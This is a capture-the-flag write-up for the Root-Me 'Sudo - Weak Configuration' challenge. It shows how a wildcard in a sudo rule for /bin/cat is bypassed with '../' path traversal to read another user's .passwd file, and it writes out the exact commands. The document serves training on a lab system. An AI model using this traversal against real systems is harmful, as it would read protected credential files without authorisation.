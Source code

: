 ### Challenge Documentation: Sudo - Weak Configuration

**Category:** Root-Me / App-Script  

**Link:** [Sudo - Weak Configuration](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)  

**Objective:**  
The goal of this challenge is to exploit a misconfigured `sudo` rule to read the `.passwd` file located in `/challenge/app-script/ch1/ch1cracked/`.

#### 1. **Initial Setup**

The challenge provides access to a remote server with the following SSH credentials:
- **Host**: `challenge02.root-me.org`
- **Port**: `2222`
- **Username**: `app-script-ch1`
- **Password**: `app-script-ch1`

##### **Connection Command**
```bash
ssh -p 2222 app-script-ch1@challenge02.root-me.org
```

#### 2. **Challenge Overview**

Once connected, the `readme.md` file describes the goal of the challenge:
```bash
cat readme.md
```

**Output:**
```
Vous devez réussir à lire le fichier .passwd situé dans le chemin suivant :
/challenge/app-script/ch1/ch1cracked/

You have to read the .passwd located in the following PATH :
/challenge/app-script/ch1/ch1cracked/
```

To achieve this, we need to find a way to access the `.passwd` file.  

#### 3. **Analyzing Sudo Permissions**

Check the `sudo` privileges available to the current user:
```bash
sudo -l
```

**Output:**
```
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass,
    !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
```

##### Key Observations:
- The user `app-script-ch1` is allowed to execute the `cat` command as `app-script-ch1-cracked` for files in `/challenge/app-script/ch1/notes/*`.
- The wildcard (`*`) allows directory traversal via `../`, potentially granting access to the `.passwd` file.

#### 4. **Exploitation Steps**

##### Step 1: Use Directory Traversal to Access `.passwd`
By leveraging the wildcard in the `sudo` rule, we can bypass the restriction and access the `.passwd` file located outside `/challenge/app-script/ch1/notes/`.

Execute the following command:
```bash
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

#### 5. **Output**

The command successfully reads the `.passwd` file:
```
***************************
```

#### 6. **Summary of Commands**

Here is the complete set of commands used to solve the challenge:
```bash
ssh -p 2222 app-script-ch1@challenge02.root-me.org

# Analyze the challenge details
cat readme.md

# Check sudo permissions
sudo -l

# Exploit the sudo rule to read the .passwd file
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

#### 7. **Conclusion**

By exploiting the weak sudo configuration, we successfully bypassed directory restrictions using `../` to read the `.passwd` file. The flag validates the challenge completion.